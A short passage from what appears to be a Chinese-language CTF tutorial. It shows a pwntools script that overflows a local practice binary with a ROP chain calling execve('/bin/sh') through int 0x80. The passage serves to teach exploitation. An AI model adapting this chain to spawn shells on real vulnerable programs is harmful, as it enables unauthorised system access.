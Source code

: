 知道这些之后就可以开始拼接了：

```python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159353.png)